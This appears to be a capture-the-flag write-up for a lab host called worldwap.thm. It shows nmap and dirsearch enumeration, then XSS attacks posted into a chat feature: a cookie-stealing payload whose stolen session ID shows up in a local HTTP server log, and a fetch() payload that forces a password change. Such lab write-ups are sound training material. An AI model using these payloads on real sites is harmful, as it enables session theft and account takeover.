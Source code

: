 # Enumeration

## Nmap

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SSH (22)

- Password authen is enable.

```bash
root@ip-10-10-177-188:~# ssh root@worldwap.thm
The authenticity of host 'worldwap.thm (10.10.212.193)' can't be established.
ECDSA key fingerprint is SHA256:lxthyLGSYAX2dtxPWVAhzHwn3iOtpwjL2Enj4NLpF7Q.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'worldwap.thm,10.10.212.193' (ECDSA) to the list of known hosts.
root@worldwap.thm's password: 
```

## HTTP(80)

### Dirsearch

```bash
[16:04:22] 301 -  310B  - /api  ->  http://worldwap.thm/api/
[16:04:22] 200 -    0B  - /api/
[16:04:43] 301 -  317B  - /javascript  ->  http://worldwap.thm/javascript/
[16:04:47] 200 -    0B  - /logs.txt
[16:04:57] 301 -  317B  - /phpmyadmin  ->  http://worldwap.thm/phpmyadmin/
[16:04:59] 200 -    3KB - /phpmyadmin/doc/html/index.html
[16:05:01] 200 -    3KB - /phpmyadmin/index.php
[16:05:01] 200 -    3KB - /phpmyadmin/
[16:05:02] 301 -  313B  - /public  ->  http://worldwap.thm/public/
[16:05:03] 200 -  490B  - /public/
```

### Vhost

- Nothing is interesting

### Website Features

![image.png](attachment:17b3ebe3-5163-42b3-a130-7518bdc7b629:image.png)

```bash
http://login.worldwap.thm/
```

### Dirsearch ( http://login.worldwap.thm/ )

```bash
[16:33:38] 301 -  330B  - /__pycache__  ->  http://login.worldwap.thm/__pycache__/
[16:33:40] 200 -    5KB - /admin.py
[16:33:47] 200 -  639B  - /assets/
[16:33:47] 301 -  325B  - /assets  ->  http://login.worldwap.thm/assets/
[16:33:51] 302 -    0B  - /chat.php  ->  login.php
[16:33:55] 200 -    0B  - /db.php
[16:34:04] 301 -  329B  - /javascript  ->  http://login.worldwap.thm/javascript/
[16:34:06] 200 -  960B  - /login.php
[16:34:06] 302 -    0B  - /logout.php  ->  login.php
[16:34:06] 200 -    0B  - /logs.txt
[16:34:13] 301 -  329B  - /phpmyadmin  ->  http://login.worldwap.thm/phpmyadmin/
[16:34:14] 200 -    3KB - /phpmyadmin/doc/html/index.html
[16:34:14] 200 -    3KB - /phpmyadmin/
[16:34:14] 200 -    3KB - /phpmyadmin/index.php
[16:34:16] 302 -    0B  - /profile.php  ->  login.php
[16:34:19] 403 -  283B  - /server-status
[16:34:19] 403 -  283B  - /server-status/
[16:34:20] 200 -   96B  - /setup.php

```

![image.png](attachment:eb3ca058-fa93-4c9b-881a-c10498c8541e:image.png)

- use javascript payload to collect cookie

```bash
root@ip-10-10-177-188:~# python3.9 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.212.193 - - [15/May/2025 16:28:03] "GET /?cookie=PHPSESSID=n0rl3obdguracs47ajh032h276 HTTP/1.1" 200 -
10.10.212.193 - - [15/May/2025 16:28:03] "GET /?cookie1=UEhQU0VTU0lEPW4wcmwzb2JkZ3VyYWNzNDdhamgwMzJoMjc2 HTTP/1.1" 200 -
                                                        (PHPSESSID=n0rl3obdguracs47ajh032h276)
```

![image.png](attachment:d63ec83f-12fb-4fe1-8428-60a3f27c7598:image.png)

### 

![image.png](attachment:689fc756-d8cd-496f-9d6f-09c9f0c0e865:image.png)

![image.png](attachment:e120960d-26bd-4db8-a164-02614912c65d:image.png)

![image.png](attachment:76f0b903-e39d-4b98-8c89-6b0dfdc91325:image.png)

- XXS

```bash
<script>alert(document.cookie)</script>
```

```bash
<script>fetch('change_password.php',{method:'POST',headers:{'Content-Type':'application/x-wwwform-urlencoded'},body:"new_password=newPass"});</script>
```

- use this script  in the chat

![image.png](attachment:8580e18b-2c69-49d0-9cea-97a45d13f21a:image.png)

![image.png](attachment:f9a5aec6-0e83-4a0e-a78d-e28210498065:image.png)
